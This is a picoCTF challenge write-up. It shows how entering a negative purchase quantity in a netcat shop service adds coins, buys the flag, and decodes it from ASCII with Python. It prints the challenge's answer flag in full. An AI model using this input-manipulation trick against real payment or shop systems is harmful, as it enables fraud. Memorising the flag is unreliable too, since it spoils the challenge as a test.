 # Best Stuff - Cheap Stuff, Buy Buy Buy...

## Challenge Description

**Challenge Name:** Best Stuff - Cheap Stuff, Buy Buy Buy...
**Instance:** `nc mercury.picoctf.net 24851`

The shop is open for business! Can you find a way to get the flag?

---

## Initial Interaction with the Market

Upon connecting to the server, we are presented with a market interface:

```
Welcome to the market!
=====================
You have 40 coins
   Item         Price   Count
(0) Quiet Quiches       10      12
(1) Average Apple       15      8
(2) Fruitful Flag       100     1
(3) Sell an Item
(4) Exit
Choose an option: 
```

- We start with 40 coins.
- The flag ("Fruitful Flag") costs 100 coins.
- We do not have enough money to buy it directly.

### Attempting to Buy the Flag

```
Choose an option: 
2
How many do you want to buy?
1
Not enough money.
```

We need to find a way to get more coins.

---

## Finding the Exploit

### Checking the Selling Menu

```
Choose an option: 
3
Your inventory
(0) Quiet Quiches       10      0
(1) Average Apple       15      0
(2) Fruitful Flag       100     0
What do you want to sell? 
2
How many?
1
Hey you don't have that many on your cart! What kind of scam is this?
```

Since we don't own the item, we cannot sell it.

### Trying a Negative Purchase

```
Choose an option: 
0
How many do you want to buy?
1
You have 30 coins
```

- We buy 1 Quiet Quiche for 10 coins, reducing our balance to 30 coins.

```
Choose an option: 
1
How many do you want to buy?
-5
You have 105 coins
```

- Entering a negative number for purchasing **adds coins instead of deducting them!**
- This integer manipulation allows us to gain enough money to buy the flag.

---

## Buying the Flag

```
Choose an option: 
2
How many do you want to buy?
1
Flag is:  [112 105 99 111 67 84 70 123 98 52 100 95 98 114 111 103 114 97 109 109 101 114 95 53 51 50 98 99 100 57 56 125]
```

The flag is displayed as an array of ASCII values.

---

## Decoding the Flag

We convert the ASCII values into characters using Python:

```python
ascii_values = [112, 105, 99, 111, 67, 84, 70, 123, 98, 52, 100, 95, 98, 114, 111, 103, 114, 97, 109, 109, 101, 114, 95, 53, 51, 50, 98, 99, 100, 57, 56, 125]
flag = ''.join(chr(i) for i in ascii_values)
print(flag)
```

### Flag Output:

```
picoCTF{b4d_brogrammer_532bcd98}
```

---

## Conclusion

This challenge exploited an **integer manipulation bug** in the purchase system, allowing negative numbers to add coins instead of subtracting them. This classic **integer underflow** bug is common in improperly validated user inputs in CTF challenges and real-world applications.

Lessons learned:
- Always validate user input.
- Prevent negative values where they shouldn't exist.
- Check integer overflows/underflows in financial transactions.

---

## Final Flag:

**`picoCTF{b4d_brogrammer_532bcd98}`**

